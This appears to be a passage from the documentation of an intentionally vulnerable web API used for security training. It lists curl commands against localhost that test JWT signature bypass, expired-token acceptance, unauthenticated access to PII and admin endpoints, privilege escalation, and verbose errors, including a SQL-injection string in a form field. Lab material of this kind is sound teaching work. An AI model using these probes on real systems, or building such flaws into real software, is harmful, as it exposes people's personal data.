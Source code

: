 ### Testing Vulnerable Endpoints

#### JWT Signature Bypass
```bash
# Get a valid token first
curl -X POST http://localhost:3001/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username": "user1", "password": "userpass"}'

# Use the token (or modify it to change role to admin)
curl -X GET http://localhost:3001/api/customers/me \
  -H "Authorization: Bearer <your_jwt_token>"
```

#### Expired Token Acceptance
```bash
# Use an expired token - should still work
curl -X GET http://localhost:3001/api/accounts/overview \
  -H "Authorization: Bearer <expired_jwt_token>"
```

#### Missing Authentication (No Token Required)
```bash
# Access sensitive PII without any authentication
curl -X GET http://localhost:3001/api/policies/mine

# Access admin statistics without any authentication
curl -X GET http://localhost:3001/api/admin/stats
```

#### Privilege Escalation (Weak Role Validation)
```bash
# Access admin settings with standard user token
# Note: This is a pure API vulnerability - no UI access provided
curl -X GET http://localhost:3001/api/admin/settings \
  -H "Authorization: Bearer <standard_user_jwt_token>"
```

#### Verbose Error Disclosure
```bash
# Test missing field error
curl -X POST http://localhost:3001/api/support/contact \
  -H "Content-Type: application/json" \
  -d '{"email": "test@example.com", "message": "Test"}'

# Test database error
curl -X POST http://localhost:3001/api/support/contact \
  -H "Content-Type: application/json" \
  -d '{"name": "John", "email": "test@error.com", "message": "Test"}'

# Test SQL injection error
curl -X POST http://localhost:3001/api/support/contact \
  -H "Content-Type: application/json" \
  -d '{"name": "John", "email": "test@example.com", "message": "'\'' OR '\''1'\''='\''1"}'
```
